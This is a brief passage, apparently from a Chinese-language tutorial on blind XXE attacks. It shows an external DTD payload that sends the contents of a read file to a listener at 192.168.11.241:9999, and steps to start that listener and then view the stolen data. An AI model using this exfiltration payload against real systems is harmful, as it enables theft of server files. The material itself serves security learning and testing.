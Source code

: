 ```xml-dtd
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http:// 192.168.11.241:9999/?id=%file;'>"
> 
%all;
```

在发包之前监听一下另一台服务器的9999端口

![img](../../images//43d26e3910bdeca51a7e83a112888aaa.png)

发包后再监听窗口查看数据

![img](../../images//5ad0fddb839f85016c6eb821447869a9.png)
